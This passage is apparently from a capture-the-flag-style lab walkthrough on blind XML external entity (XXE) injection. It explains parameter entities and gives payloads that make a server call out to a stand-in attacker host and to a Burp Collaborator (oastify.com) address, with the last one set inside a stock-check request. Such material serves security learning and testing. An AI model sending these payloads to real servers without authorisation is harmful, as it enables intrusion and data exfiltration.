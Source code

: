 Step3:

Now we use payload
```
<!DOCTYPE foo [

  <!ENTITY % xxe SYSTEM "[https://collaborator id](https://collaborator%20id)">

  %xxe;

]>

<foo>

  <!-- Your XML content here -->

</foo>
```

This is made on the basis of

First, the declaration of an XML parameter entity includes the percent character before the entity name:
```
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

`%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "[http://f2g9j7hhkax.web-attacker.com](http://f2g9j7hhkax.web-attacker.com)"> %xxe; ]>
```
Now go to collaborator and copy collaborator id

Here is the final payload

```
<!DOCTYPE foo [

  <!ENTITY % xxe SYSTEM "[http://u2xvvot8rfkoa6wie0i49s4j0a61urig.oastify.com](http://u2xvvot8rfkoa6wie0i49s4j0a61urig.oastify.com)">

  %xxe;

]>

<foo>

 <?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

</foo>
```